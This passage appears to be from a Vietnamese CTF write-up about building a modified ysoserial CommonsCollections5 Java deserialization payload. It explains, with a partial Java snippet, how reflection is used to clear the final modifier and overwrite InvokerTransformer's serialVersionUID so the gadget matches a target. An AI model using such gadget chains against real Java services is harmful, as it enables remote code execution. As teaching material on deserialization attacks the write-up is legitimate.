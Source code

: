 ## Set value for static final field: serialVersionUID

Để set `serialVersionUID` của class `InvokerTransformer` thì cần phải dùng reflection, lấy trường `serialVersionUID` lưu vào 1 đối tượng thuộc lớp `Field`, rồi sử dụng hàm `Field.set()` để set giá trị (tương tự cách set `logCommand` trong [ascis_rmi_v1](../ascis_rmi_v1/)). Tuy nhiên, bản thân mỗi trường trong một class cũng có những thuộc tính riêng như: private, public, static, final, ... nên bên trong class `Field` cũng có các trường khác để ghi nhớ những điều này. Ở đây chúng ta chú ý đến trường `Field.modifiers`.

![modifiers](img/p4.png)

Nói đơn giản thì `modifiers` dùng để xác định quyền chỉnh sửa giá trị của một Field, mà theo đó các trường `static final` sẽ được set mặc định là không được modify. Vì vậy, trước khi thực hiện đến bước set giá trị của trường `serialVersionUID` - đang là một đối tượng của class `Field`, cần phải set trường `modifiers` của lớp `Field` về acceptable :neutral_face:. Có thể tham khảo thêm [tại đây](https://stackoverflow.com/questions/3301635/change-private-static-final-field-using-java-reflection)

Hiện thực như sau:

```java
public class doublevkay_ModifiedCommonsCollections5 extends PayloadRunner implements ObjectPayload<BadAttributeValueExpException> {

    public BadAttributeValueExpException getObject(final String command) throws Exception {
        
        // Lấy trường serialVersionUID trong class InvokerTransformer
        Field serialVersionUID = InvokerTransformer.class.getDeclaredField("serialVersionUID");
        serialVersionUID.setAccessible(true);

        // Lấy trường modifiers trong class Field.
        Field modifiersSerialVersionUID = Field.class.getDeclaredField("modifiers");
        modifiersSerialVersionUID.setAccessible(true);

        // Set giá trị của trường modifiers bên trong class Field của đối tượng serialVersionUID về acceptable.
        
        modifiersSerialVersionUID.setInt(serialVersionUID, serialVersionUID.getModifiers() & ~Modifier.FINAL);

        // Set serialVersionUID của lớp InvokerTransformer về -1333713373713373737L
        serialVersionUID.set(InvokerTransformer.class,-1333713373713373737L);
        ...
    }
}

```
